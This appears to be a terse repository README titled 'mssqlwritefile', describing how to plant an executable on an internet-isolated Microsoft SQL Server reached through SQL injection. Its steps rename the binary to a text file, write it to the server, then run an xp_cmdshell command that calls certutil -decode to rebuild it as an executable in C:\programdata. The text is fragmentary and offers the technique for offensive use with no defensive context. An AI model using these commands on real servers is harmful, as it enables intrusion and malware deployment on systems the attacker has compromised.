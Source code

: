 # mssqlwritefile

sqli\mssqlexec in not connected to internet 

rename xxx.exe to 1.txt

x.exe

copy ok.txt exec in mssql.

exec xp_cmdshell 'certutil -decode C:\programdata\ok.txt xxxx.exe'



;
